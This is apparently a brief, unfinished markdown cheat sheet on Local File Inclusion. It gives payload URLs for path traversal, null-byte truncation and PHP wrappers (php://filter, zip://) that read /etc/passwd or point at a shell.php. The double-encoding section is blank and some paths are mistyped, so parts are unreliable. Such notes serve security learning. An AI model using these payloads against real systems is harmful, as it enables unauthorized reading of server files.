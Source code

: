 ![file-upload-sheetcheatschema](https://github.com/user-attachments/assets/ac268e3d-d681-4f13-93f7-ba515f20e441)

# LFI (Local File Inclusion)

## 1. Classique
**Explanation :** Why use the variable "page" for include other file. And ../ for return to folder before. 
**Example :** http://www.exemple.com/?page=example.php
http://www.exemple.com/?page=../../../etc/.passwd

## 2. Null byte
**Explanation : ** .php was incremented automaticaly to photo, like lang=eng, so we use %00 for separate de extension added. 
**Exemple : ** http://www.exemple.com/?page=photo
http://www.exemple.com/?page=../../../etc/passwd%00

## 3. Double encoding
**Explanation : **
**Exemple : ** http://www.exemple.com/?page=
http://www.exemple.com/?page=

## 4. Wrappers
**Explanation : ** wrapper is for apply filter. We have :
phar://
zip://
**Example :** zip://tmp/file.zip%23shell.php
tar://
php://
**Exemple : ** http://www.exemple.com/?page=/etc/.passwd (permission denied)
http://www.exemple.com/?page= php://filter/convert.base64-encode/resource=/etc/.passwd
